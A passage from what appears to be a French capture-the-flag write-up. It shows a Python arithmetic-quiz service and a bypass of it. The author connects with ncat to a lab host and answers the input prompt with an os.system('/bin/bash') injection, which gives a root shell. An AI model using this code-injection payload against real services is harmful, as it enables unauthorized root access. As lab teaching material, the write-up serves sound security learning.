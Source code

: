 ```python
        print(a,op,b)
        if op == "+":
            val = add(a,b)

        if op == "-":
            val = sub(a,b)

        if op == "/":
            val = div(a,b)

        if op == "*":
            val = multiply(a,b)

        try:
            In = int(input("> "))
        except Exception:
            print("Stop acting like a hacker for a damn minute!!")
            sys.exit(1)

        if In == val:
            continue
        else:
            print("Wrong answer")
            sys.exit(1)

    with open("/opt/1337/p0rt5", 'r') as f:
        print(f.read())


if __name__ == "__main__":
    main()
```

Et pourtant on pouvait bypasser tout le CTF :

```shellsession
$ ncat 192.168.242.133 1337 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.242.133:1337.
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|


Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(9, '+', 7)
> __import__("os").system("/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
```
